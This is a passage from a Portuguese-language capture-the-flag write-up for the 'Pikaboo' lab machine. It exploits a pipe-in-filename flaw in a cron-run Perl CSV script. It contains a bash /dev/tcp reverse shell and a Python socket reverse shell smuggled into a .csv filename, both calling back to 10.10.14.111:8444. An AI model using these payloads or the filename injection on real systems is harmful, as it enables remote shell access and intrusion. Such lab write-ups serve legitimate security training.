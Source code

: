 ```bash

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

Ao ler o script, percebemos que ele basicamente faz suas alterações ao captar o nome do arquivo como um argumento, isso exploca o `"$(basename $d) *csv"` no script da cron.

O pesquisar sobre vulnerabilidades em scripts Perl, encontrei este [artigo](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543).

Basicamente ele diz que se o nome do arquivo tiver um pipe `"|"`, o resto do nome do arquivo será executado como um comando, porém, a cron utiliza `basename`, então não podemos executar qualquer payload, se testarmos em nossa máquina local, veremos que o payload simples de reverse shell é cortado pelo basename.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ basename 'bash -c "/bin/bash -i > /dev/tcp/10.10.14.111/8444 0>&1"'
8444 0>&1"
```

O basename vai considerar só o que vem após o último `"/"`, então precisamos de outra alternativa.

É possível obter um reverse shell através do `python`, sem utilizar `/`, vamos criar um arquivo para upload.


```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.111\",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';.csv"
                                                                                                                     
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ls -la
total 8
drwxr-xr-x  2 hastur hastur 4096 Sep 19 17:14  .
drwxr-xr-x 36 hastur hastur 4096 Sep 19 15:42  ..
-rw-r--r--  1 hastur hastur    0 Sep 19 17:14 '|python -c '\''import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'\'';.csv'
```
